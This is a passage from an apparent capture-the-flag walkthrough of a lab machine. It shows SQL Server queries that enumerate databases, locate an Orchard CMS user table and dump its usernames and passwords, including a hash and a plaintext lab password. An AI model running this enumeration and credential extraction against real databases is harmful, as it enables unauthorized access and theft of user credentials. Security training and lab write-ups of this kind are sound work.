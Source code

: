 ~~~

Then, list all databases.<br>
{% highlight shell %}
SQL> select name from master.dbo.sysdatabases
name                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------   
master                                                                                                                             
tempdb                                                                                                                             
model                                                                                                                              
msdb                                                                                                                               
orcharddb        
{% endhighlight %}

Next, try to find a user table for orcharddb.
{% highlight shell %}
SQL> use orcharddb
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.

SQL> select table_name from information_schema.tables where table_name like '%User%'
table_name                                                                                                                         
--------------------------------------------------------------------------------------------------------------------------------   
blog_Orchard_Users_UserPartRecord                                                                                                  
blog_Orchard_Roles_UserRolesPartRecord
{% endhighlight %}

Then, get user credential from the table 'blog_Orchard_Users_UserPartRecord'
{% highlight shell %}
SQL> select column_name from information_schema.columns where table_name='blog_Orchard_Users_UserPartRecord'
column_name
--------------------------------------------------------------------------------------------------------------------------------
Id
UserName
Email
NormalizedUserName
Password
PasswordFormat
HashAlgorithm
PasswordSalt
RegistrationStatus
EmailStatus
EmailChallengeToken
CreatedUtc
LastLoginUtc
LastLogoutUtc

SQL> select UserName,Password from blog_Orchard_Users_UserPartRecord

admin   AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
James   J@m3s_P@ssW0rd!
{% endhighlight %}

~~~